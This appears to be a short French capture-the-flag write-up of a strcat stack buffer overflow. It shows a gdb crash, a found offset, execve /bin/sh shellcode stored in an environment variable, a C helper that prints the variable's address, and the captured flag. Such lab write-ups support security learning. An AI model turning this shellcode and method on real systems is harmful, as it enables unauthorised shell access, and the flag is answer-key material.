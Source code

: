 1. Pendant les premiers tests on remarque déjà que le programme segfault.
2. On ouvre gdb pour en savoir plus.
3. On remarque que le '\0' de dest est remplacé par 32 juste avant le `strcat`.
4. On écrit donc un exploit utilisant cette vulnérabilité.
5. La seconde entrée est responsable de l'overflow.
   ```
   (gdb) r
    -
   AAAAAAAAAAAAAAAAAAAA
    -
   BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

   Program received signal SIGSEGV, Segmentation fault.
   0x42424242 in ?? ()
   ```
6. L'offset est de 9.
7. On se rend compte qu'il n'y a pas la place pour mettre directement le shellcode, on utilise donc une variable d'environnement.
   ```
   export SHELLCODE="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
   ```
8. On écrit un petit programme pour connaître l'adresse de la variable.
   ```
   #include <stdio.h>
   #include <stdlib.h>

   int main ()
   {
	printf("%p\n", getenv("SHELLCODE"));
	return 0;
   }
   ```
9. Il suffit maintenant de jmp sur cette adresse pour ouvrir notre shell.

> Flag: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9